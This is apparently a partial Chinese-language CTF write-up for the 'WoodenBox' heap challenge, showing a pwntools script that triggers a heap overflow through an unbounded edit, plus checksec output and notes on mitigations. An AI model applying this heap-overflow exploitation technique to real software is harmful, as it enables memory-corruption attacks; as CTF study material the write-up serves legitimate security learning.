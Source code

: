 # WoodenBox

首先patch一下，用自己的glibc2-23的so和ld文件。

![LhZgP6](https://gitee.com/p0kerface/blog_image_management/raw/master/uPic/LhZgP6.png)

漏洞很简单,修改数据时可以写入无限长度的数据，造成堆溢出。

```python
#!/usr/bin/python
from pwn import *

p=process("./woodenbox2")
#context.log_level='Debug'
gdb.attach(p)


def malloc(size,data):
	p.recvuntil("Your choice:")
	p.sendline(str(1))
	p.recvuntil("Please enter the length of item name:")
	p.sendline(str(size))
	p.recvuntil("Please enter the name of item:")
	p.sendline(data)
def free(index):
	p.recvuntil("Your choice:")
	p.sendline(str(3))
	p.recvuntil("Please enter the index of item:")
	p.sendline(str(index))
def edit(index,size,data):
	p.recvuntil("Your choice:")
	p.sendline(str(2))
	p.recvuntil("Please enter the index of item:")
	p.sendline(str(index))
	p.recvuntil("Please enter the length of item name:")
	p.sendline(str(size))
	p.recvuntil("Please enter the new name of the item")
	p.sendline(data)
	
malloc(0x38,"A"*0x30)
malloc(0x100,"B"*0x30)
#malloc(0x20,"C"*0x10)iq
edit(0,0x50,"C"*0x45)
#free(1)

p.interactive()
```

但是程序没有输出函数，所以通过泄漏地址。fastbin attack显然是不行的。并且程序开启了PIE，覆盖got表也不可行。并且程序一次free会把之后的index都往前移动一位，并且会将index小于这个的指针从list中清除，这点是需要注意的（别问我怎么发现的）。

```
gdb-peda$ checksec 
CANARY    : ENABLED
FORTIFY   : disabled
NX        : ENABLED
PIE       : ENABLED
RELRO     : Partial
```
